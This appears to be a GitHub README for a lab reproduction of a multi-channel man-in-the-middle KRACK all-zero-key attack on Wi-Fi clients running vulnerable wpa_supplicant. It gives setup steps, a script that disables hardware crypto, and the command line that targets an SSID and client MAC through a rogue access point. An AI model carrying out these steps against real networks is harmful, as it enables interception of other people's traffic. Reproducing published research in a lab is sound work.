 # Multi Channel Man-in-the-Middle Attacks Against Protected Wi-Fi Networks
This activity describes how to perform MC-MitM (Improved Variant) attack using channel switch announcements.To execute this attack, two important the packeges such as python2.7 and scapy 2.3.3 are required.Note that this attack will not be successful with latest scapy versions 2.4.3. In this case it is advisble to remove higher versions of scapy and then downgrade to 2.3.3. In particular, this MC-MitM attack ultimately peforms a key reinstalltion attack on Linux machine. More specifically, the all-zero encryption key attack on vulnerable wpa_supplicants (2.4 or below) that comes with various Linux distributions. Please, use [this tool](https://github.com/lucascouto/krackattacks-scripts) to verify the client is vunarable to the attack or not. 
## Brief Background  
Under Construction
## Attack Environment Setup
<p align="center">
  <img src="https://github.com/maneshthankappan/Multi-Channel-Man-in-the-Middle-Attacks-Against-Protected-Wi-Fi-Networks-By-Improved-Variant/blob/main/MC-MitM-Improved%20Variant-Attack%20Setup.jpeg">
</p>

* Attacker Machine
  * HP Elite 8300 SFF Quad Core
  * OS: Kali Linux 2019.4(5.3.0-kali2-amd64)
  * Two Wi-Fi Cards: Qualcomm Atheros Communications AR9271. Driver: ath9k_htc
  * Android smartphone connected via usb to provide 4g Internet

* Client or Victim Machine:
  * Dell Inspiron 15 30000 series
  * OS: Ubuntu 17.04
  * wpa_supplicant v2.4 (2.4-0ubuntu6 am64)

* Access Point:
  * D-Link AX 1500 Wi-Fi 6 Router
  * Hardware Version: A2
  * Firmware Version: 1.08
  * Configured with 50% TX power and channel 1
  
## Prerequisites and Installation Procedure
### 1. Install the following dependencies on Kali Linux:
```
$sudo apt update
$sudo apt install libnl-3-dev libnl-genl-3-dev pkg-config libssl-dev net-tools git sysfsutils python-pycryptodome
```
### 2. Install the following scapy package
Now-a-days,kali linux comes with latest version of scapy (version 2.4.3 or above).This attack script will not work on this new scapy version. Therefore, as pointed earlier,uninstall the scapy first and reinstall scapy as described below. 
```
$ pip install scapy==2.3.3
```
If the above command gives error, please try following procedure to install scapy 2.3.3
```
1. Go to https://pypi.org/project/scapy/2.3.3/#files
2. Download "scapy-2.3.3.tgz (1.4 MB)" folder
3. Unzip/extract the folder
4. Open a terminal in scapy-2.3.3 folder
5. Type sudo python2.7 setup.py install
```
### 3. Install the following python package for MC-MitM attack setup
```
$pip install --user mitm_channel_based
```
If the above command gives error, please try following procedure to install MC-MitM package
```
1. Go to https://pypi.org/project/mitm-channel-based/#description
2. Click on "Download files" link
3. Download "mitm_channel_based-0.0.5.tar.gz (11.7 kB)" file
4. Go to your download folder and unzip the above folder
5. Open a terminal in "mitm_channel_based-0.0.5" folder
6. Type sudo python2.7 setup.py install
```
### 4. Warnings
Perform the following before executing the attack
```
1. Goto "krackattack-all-zero-tk-key-master" folder
2. Execute the script "./disable-hwcrypto.sh" to disable hardware encryption
3. Reboot the system
4. Verify whether the flag (nohwcrypt = "1") has been set using the command "systool -vm ath9k_htc"
5. Disable Wi-Fi or type sudo nmcli radio wifi
6. Type sudo rfkill unblock wifi
```
## Tool Usage
 The attack tool can be executed using follwoing command line arguments. Download attack folder from the link (Under construction). 

 ```
 $sudo ./krack_all_zero_tk.py wlan1 wlan0 eth0 "Manesh_WiFi" -t e4:02:9b:cd:3b:92
 ```
 ### Below are the details of wireless interfaces
 
 * `wlan1`: interface that listens and injects packets on the real channel
 * `wlan0`: interface that runs the Rogue AP
 * `eth0`: interface providing internet access to the victim
 * `"Manesh_WiFi"`: SSID of the target network
 * `-t e4:02:9b:cd:3b:92`: MAC address of the attacked client
 * You can see many other options running `./krackattack/krack_all_zero_tk.py -h`!
 

 ### Files Generated
 After running the script for the first time, some new files will be generated:
 ```
 * `dnsmasq.conf`: configuration file for DHCP and DNS services
 * `dnsmasq_log`: output from dnsmasq
 * `hostapd_rogue.conf`: configuration file for the rogue ap clone from the real ap
 * `hostapd_rogue.log`: output from hostapd_rogue
 * `rogue_ap_capture.pcap`: file containing packets capture from the rogue ap interface
 ```
  
  ### References
  * https://github.com/vanhoefm/krackattacks-scripts
  * https://github.com/vanhoefm/fragattacks
  * https://github.com/lucascouto/mitm-channel-based-package
  * https://www.krackattacks.com/
  * https://www.fragattacks.com/#tools
  * https://papers.mathyvanhoef.com/ccs2018.pdf
